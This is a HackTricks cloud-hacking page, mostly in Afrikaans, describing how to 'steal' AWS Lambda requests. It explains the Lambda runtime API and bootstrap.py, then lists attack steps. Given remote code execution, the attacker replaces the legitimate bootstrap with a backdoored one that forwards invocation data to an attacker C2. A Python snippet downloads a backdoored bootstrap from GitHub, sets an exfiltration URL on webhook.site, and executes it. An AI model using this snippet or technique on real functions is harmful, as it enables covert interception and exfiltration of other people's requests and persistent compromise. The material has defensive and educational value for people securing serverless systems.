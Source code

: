 # AWS - Steal Lambda Requests

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** is 'n proses buite die houer wat **stuur** **aanroepings** na die **init** proses.
2. Die init proses luister op poort **9001** wat 'n paar interessante eindpunte blootstel:
* **`/2018-06-01/runtime/invocation/next`** – kry die volgende aanroep gebeurtenis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – keer die handler respons vir die aanroep terug
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – keer 'n uitvoeringsfout terug
3. **bootstrap.py** het 'n lus wat aanroepings van die init proses kry en roep die gebruikerskode aan om dit te hanteer (**`/next`**).
4. Laastens, **bootstrap.py** stuur die **respons** na init

Let daarop dat bootstrap die gebruikerskode as 'n module laai, so enige kode-uitvoering wat deur die gebruikerskode uitgevoer word, gebeur eintlik in hierdie proses.

## Stealing Lambda Requests

Die doel van hierdie aanval is om die gebruikerskode 'n kwaadwillige **`bootstrap.py`** proses binne die **`bootstrap.py`** proses wat die kwesbare aanvraag hanteer, te laat uitvoer. Op hierdie manier sal die **kwaadwillige bootstrap** proses begin **praat met die init proses** om die aanroepings te hanteer terwyl die **legitieme** bootstrap **gevang** is wat die kwaadwillige een uitvoer, sodat dit nie vir aanroepings aan die init proses sal vra nie.

Dit is 'n eenvoudige taak om te bereik aangesien die kode van die gebruiker deur die legitieme **`bootstrap.py`** proses uitgevoer word. So die aanvaller kan:

* **Stuur 'n vals resultaat van die huidige aanroep na die init proses**, sodat init dink die bootstrap proses wag vir meer aanroepings.
* 'n Aanvraag moet gestuur word na **`/${invoke-id}/response`**
* Die invoke-id kan verkry word van die stapel van die legitieme **`bootstrap.py`** proses deur die [**inspect**](https://docs.python.org/3/library/inspect.html) python module (soos [hier voorgestel](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) of net weer aan te vra na **`/2018-06-01/runtime/invocation/next`** (soos [hier voorgestel](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Voer 'n kwaadwillige **`boostrap.py`** uit wat die volgende aanroepings sal hanteer
* Vir stealthiness doeleindes is dit moontlik om die lambda aanroepingsparameters na 'n aanvaller beheerde C2 te stuur en dan die aanroepings soos gewoonlik te hanteer.
* Vir hierdie aanval is dit genoeg om die oorspronklike kode van **`bootstrap.py`** van die stelsel of [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) te kry, die kwaadwillige kode by te voeg en dit van die huidige lambda aanroep uit te voer.

### Attack Steps

1. Vind 'n **RCE** kwesbaarheid.
2. Genereer 'n **kwaadwillige** **bootstrap** (bv. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Voer** die kwaadwillige bootstrap uit.

Jy kan hierdie aksies maklik uitvoer deur te loop:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
